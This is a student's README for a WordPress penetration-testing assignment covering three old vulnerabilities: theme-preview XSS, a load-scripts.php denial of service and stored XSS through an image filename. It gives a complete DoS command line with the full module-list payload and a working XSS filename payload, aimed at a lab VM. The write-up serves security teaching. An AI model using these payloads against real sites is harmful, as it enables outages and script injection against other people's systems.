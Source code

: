# Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Legacy Theme Preview Cross-Site Scripting (XSS)
  - [ ] Summary: One of the callback functions remove the potential for JavaScript to be executed, it removes "onclick='", but continues to run the request without the "onclick='" function. We can use "onmouseover" after the "onclick=" function is removed, allowing us to use XSS. You do have to be an admin to be able to run this, but if you can get the admin to click a malicious link beforehand, it will work.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.4
  - [ ] GIF Walkthrough: https://youtu.be/K7hTDUGLYe8
  - [ ] Steps to recreate: Once you have your script ready, post it as a comment on any post on a WordPress page. Once the comment is posted, either scroll up for the script to be activated, or refresh the page and it will activate. 
  - [ ] Affected source code:
    - [Link 1](https://wpdistillery.vm/wp-admin/includes/theme.php)
2. WordPress <= 4.9.4 - Application Denial of Service (DoS) (unpatched)
  - [ ] Summary: WordPress contains a feature that lets a browser load multiple JS/CSS files with a single script (uses load-scripts.php)
                 To prevent DoS attacks, WordPress has protected against a user asking for the same module multiple times in a single                      request. However, if you ask it to load ALL the JS modules, it proceeds with the request, with a response that is 4 MB                    data sent in 2.2 seconds. A python script is written to repeat this requst of ALL the modules, and results in a DoS                        causing the server to become unreachable. 
    - Vulnerability types: DoS - Denial of Service
    - Tested in version: 4.2
    - Fixed in version: Unpatched
  - [ ] GIF Walkthrough: https://youtu.be/O4s8cxdzHQs
  - [ ] Steps to recreate: Download the python script from https://github.com/quitten/doser.py, and run the following command: 
  ```python doser.py -g 'http://mywpserver.com/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9' -t 9999``` The script is now running, and the WordPress site should be unreachable. If you want to stop the script, either close the terminal window or terminate the script using CTRL + C.
  - [ ] Affected source code:
    - [Link 1](https://wpdistillery.vm/wp-admin/load-scripts.php)
3. WordPress 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename
  - [ ] Summary: This is a stored XSS exploit which uses an image. You insert JavaScript into the name of a JPG file, upload it to your WordPress media library, open up the attachment page of the picture, and the script runs once the broken image icon is clicked. The reason you have to save the image to your library and open it up is because it is a stored XSS exploit. The script only runs once someone clicks the broken image link.
    - Vulnerability types: Stored XSS
    - Tested in version: 4.0
    - Fixed in version: 4.0.13
  - [ ] GIF Walkthrough: https://youtu.be/XSD3R5st3_M
  - [ ] Steps to recreate: You can download any image as a jpg, make the filename ```name<img src=a onclick=alert('string')>.jpg```. Once you have this file downloaded, log onto WordPress as an admin, click "Media" on the left side of the page, and add the picture you made earlier to your library. Click the library again to see your picture uploaded, click on it, click "view attachment page" at the bottom of the page, click the broken image icon, and your XSS will pop up on the screen.  
  - [ ] Affected source code:
    - [Link 1](https://wpdistillery.vm/wp-admin/includes/media.php)

## Assets

Exploit 2 Python Script - https://github.com/quitten/doser.py

## Resources

- [Vagrant](https://www.vagrantup.com/)
- [Exploit 3 Explanation](https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html)
- [Exploit 2 Explanation]
(https://baraktawily.blogspot.com/2018/02/how-to-dos-29-of-world-wide-websites.html)
- [Exploit 1 Explanation]
(https://blog.sucuri.net/2015/08/persistent-xss-vulnerability-in-wordpress-explained.html)

GIFs created with [Giphy](https://itunes.apple.com/us/app/giphy-capture-the-gif-maker/id668208984?mt=12).

## Notes

Fun assignment, the exploits did take some trial and error but they did end up working for me. 
## License

    Copyright [2018] [Sevak Papanyan]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
